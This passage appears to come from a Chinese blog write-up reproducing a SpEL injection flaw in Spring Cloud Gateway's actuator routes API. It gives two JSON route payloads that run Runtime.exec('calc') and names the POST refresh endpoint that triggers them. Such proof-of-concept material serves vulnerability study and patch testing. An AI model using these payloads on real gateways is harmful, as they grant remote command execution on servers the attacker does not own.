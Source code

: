 ![image-20220407204758221](images/1.png)

构造一个包含恶意请求的路由

```
{
  "id": "test",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{T(java.lang.Runtime).getRuntime().exec('calc')}"
    }
  }],
  "uri": "https://xz.aliyun.com/"
}
```

uri这里可以随便填写

刷新网关路由

```
http://localhost:8081/actuator/gateway/refresh
```

但是这里要用POST方法去发包才能触发

![image-20220407211338960](images/2.png)

另外一种形式的payload

```
{
  "id": "hacktest",
  "predicates": [{
    "name": "Path",
    "args": {"_genkey_0":"#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"calc\"}).getInputStream()))}"}
  }],
  "uri": "http://example.com"
}
```
